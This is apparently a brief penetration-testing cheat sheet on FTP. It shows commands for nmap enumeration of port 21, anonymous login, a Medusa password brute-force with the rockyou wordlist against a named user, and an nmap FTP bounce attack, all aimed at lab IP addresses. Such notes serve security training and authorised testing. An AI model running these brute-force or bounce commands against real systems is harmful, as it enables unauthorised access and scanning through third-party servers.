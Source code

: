 The [File Transfer Protocol](https://en.wikipedia.org/wiki/File_Transfer_Protocol) (`FTP`) is a standard network protocol used to transfer files between computers.
# Enumeration
#### Nmap
```shell
sudo nmap -sC -sV -p 21 192.168.2.142 
```
#### Anonymous Authentication
```shell
ftp 192.168.2.142

anonymous
```
## Protocol Specifics Attacks
### Brute Forcing
#### Brute Forcing with Medusa
```shell
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
```
# FTP Bounce Attack
The `Nmap` -b flag can be used to perform an FTP bounce attack:
#### Nmap
```shell
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```


